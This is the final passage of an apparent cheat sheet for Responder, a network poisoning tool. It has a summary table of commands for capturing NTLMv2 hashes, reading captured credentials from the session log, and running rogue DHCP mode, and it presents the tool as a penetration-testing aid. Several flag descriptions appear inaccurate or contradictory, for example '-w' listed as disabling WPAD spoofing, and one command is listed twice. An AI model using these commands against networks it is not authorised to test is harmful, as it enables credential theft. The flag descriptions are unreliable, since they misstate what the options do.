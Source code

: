 #### **15. Exiting Responder**
- **Description:** Stop Responder safely.
- **Command:**
  ```bash
  Ctrl + C
  ```
- **Explanation:**
  - Press `Ctrl + C` in the terminal where Responder is running to stop the process.

---

### **Summary of Responder Commands**

| **Command/Action**                                   | **Description**                                                                 |
|------------------------------------------------------|---------------------------------------------------------------------------------|
| `sudo responder -I <interface>`                      | Start Responder on a specific network interface                                 |
| `sudo responder -L`                                  | List all available network interfaces                                           |
| `sudo responder -I <interface> -A`                   | Analyze traffic without spoofing                                                |
| `sudo responder -I <interface> -w -r -f`             | Disable specific modules (WPAD, SMB, Finger)                                    |
| `sudo responder -I <interface> -q`                   | Run Responder in quiet mode                                                     |
| `sudo responder -I <interface> -c /path/to/config`   | Start Responder with a specific configuration file                              |
| `sudo responder -I <interface> -v`                   | Start Responder with verbose output                                             |
| `sudo responder -I <interface>`                      | Capture NTLMv2 hashes from network traffic                                      |
| `cat /usr/share/responder/logs/Responder-Session.log`| View captured hashes and credentials                                            |
| `sudo responder -I <interface> -F`                   | Run Responder in fingerprint mode                                               |
| `sudo responder -I <interface> -w`                   | Disable WPAD spoofing                                                           |
| `sudo responder -I <interface> --dhcp`               | Run Responder in rogue DHCP mode                                                |
| `sudo responder -I <interface> -s`                   | Analyze SMB traffic specifically                                                |
| `Ctrl + C`                                           | Exit Responder safely                                                           |

---

Responder is an effective tool for capturing network credentials by exploiting common misconfigurations and weaknesses in Windows authentication protocols. It plays a vital role in network penetration testing, particularly in environments where LLMNR, NBT-NS, and SMB are actively used.
